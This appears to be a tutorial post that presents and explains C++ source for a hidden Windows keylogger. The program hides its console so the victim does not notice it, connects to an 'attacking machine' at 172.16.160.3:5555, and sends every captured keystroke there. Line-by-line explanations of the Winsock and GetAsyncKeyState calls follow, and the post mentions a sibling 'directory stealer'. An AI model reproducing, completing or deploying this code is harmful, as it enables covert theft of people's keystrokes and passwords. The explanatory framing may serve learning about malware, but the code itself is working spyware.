

client socket
The c++ full code can be accessed
HERE#define _WINSOCK_DEPRECATED_NO_WARNINGSwe used older functionalities of winsock utilities and we do not want the compiler to complain about this
#pragma comment(lib, "Ws2_32.lib")tells the linker to add the "Ws2_32.lib" library to the list of library dependencies(remember that filenames are case-insensitive on typical Windows filesystems so "ws2_32.lib" is the same)
Some compilers, like Dev-C++ ignores #pragma directives so we have to the tell the compiler to add the Ws2_32.lib when calling the linker on the command line with -lws2_32.
We can do that on Tools→ Compiler Oprions

#include <iostream>standard input/output utilities
#include <winsock2.h>header file that contains most of the Winsock functions, structures, and definitions
#include <stdio.h>standard input/output utilities
#include <stdlib.h>standard input/output utilities
#include <Windows.h>Windows.h header include the winuser.h header that has the function GetAsyncKeyState(Determines whether a key is up or down at the time the function is called, and whether the key was pressed after a previous call to GetAsyncKeyState.)
int main()
{
ShowWindow(GetConsoleWindow(), SW_HIDE);
WSADATA WSAData;
SOCKET client;
SOCKADDR_IN addr;
WSAStartup(MAKEWORD(2, 0), &WSAData);
client = socket(AF_INET, SOCK_STREAM, 0);
addr.sin_addr.s_addr = inet_addr("172.16.160.3");
addr.sin_family = AF_INET;
addr.sin_port = htons(5555);
connect(client, (SOCKADDR *)&addr, sizeof(addr));
while (true) {
Sleep(10);
for (int KEY = 0x8; KEY < 0xFF; KEY++)
{
if (GetAsyncKeyState(KEY) & 0x8000) {
char buffer;
buffer = KEY;
send(client, buffer, sizeof(buffer), 0);
}
}
}
closesocket(client);
WSACleanup();
}
• ShowWindow(GetConsoleWindow(), SW_HIDE);
is used to hide the command window. we don't want that the user notice that the program has started
If we want to show it we use: ShowWindow(::GetConsoleWindow(), SW_SHOW);
• WSAStartup(MAKEWORD(2, 0), &WSAData);
The WSAStartup function must be the first Windows Sockets function called by an Application or DLL.
◇ MAKEWORD function is used to specify the version of Winsock that we want to use( in our case 2.0), MAKEWORD is a function that create a concatenation of two 8 bit numbers(so in total 16bit),so in our case
2(00000010)+0(00000000)= 0000001000000000
◇ &WSAData is a pointer to the WSADATA data structure WSAData that is populated with Windows Sockets informations like the version that we have requested(2.0) and some other informations.
• client = socket(AF_INET, SOCK_STREAM, 0);
This call results in a stream socket with TCP protocol providing the underlying communication
the socket function → int socket(int domain, int type, int protocol)
creates a socket in the specified domain and of the specified type. These are constants defined in sys/socket.h
domain: AF_INET, AF_UNIX...
type: SOCK_STREAM, SOCK_DGRAM...
protocol: If the protocol is unspecified (value 0), the system selects a protocol that supports the requested socket type.
• sockaddr_in addr has this structure:
#include <netinet/in.h>
struct sockaddr_in {
short sin_family; // e.g. AF_INET
unsigned short sin_port; // e.g. htons(5555)
struct in_addr sin_addr; // see struct in_addr, below
char sin_zero[8]; // zero this if you want to but not necessary
};
struct in_addr {
unsigned long s_addr; // load with inet_aton()
};
◇ addr.sin_family = AF_INET;
we match the domain used in the socket call
◇ addr.sin_port
short integer remote port number from host byte order(usually Little-endian=opposite of Big-endian) to network byte order(Big-endian=most significant byte first and the least significant byte last),
converted using → unsigned short htons(unsigned short a);
◇ addr.sin_addr.s_addr = inet_addr("172.16.160.3");
The inet_addr("172.16.160.3") function→ in_addr_t inet_addr(const char *cp);
converts a string into a numeric IPv4 Internet address
The IPv4 that we have inserted, is the IP of the attacking machine from where we are listening
Anyway now this function is deprecate because doesn't support IPv6
• connect(client, (SOCKADDR *)&addr, sizeof(addr));
this call connects the socket referred to by the file descriptor client to the address specified by addr,
addr is been converted from SOCKADDR_IN to SOCKADDR because the function connect()
accept only that → int connect(int socket, struct sockaddr *address, socklen_t address_len);
---------------------------------------------------------------
from here the keylogger start to differentiate from the directory stealer:
• for (int KEY = 0x8; KEY < 0xFF; KEY++)
The hexadecimal values between 0x8 and 0xFF are Virtual-Key Codes used by Windows system like we can see here: https://docs.microsoft.com/en-us/windows/win32/inputdev/virtual-key-codes
This cycle for run at at the infinite with these characters: 
• if (GetAsyncKeyState(KEY) & 0x8000)
With & we are doing a bitwise AND operation(&) and we are checking if the most significant bit is set (1000000000000000
If a key is pressed the return value of GetAsyncKeyState will be 0x8001 or 0x8000 and with a bitwise AND operation(&) we will have a number !=0
While we press a key the GetAsyncKeyState function can return us one of the following values:
◇ 0 in hex is 0x0000 and in binary 000000000000000
◇ -32768 in hex is 0x8000 and in binary 1000000000000000 → key is being held down
◇ 1 in hex is 0x0001 and in binary 0000000000000001 → key has just transitioned from released to pressed
◇ -32767 in hex is 0x8001 and in binary 1000000000000001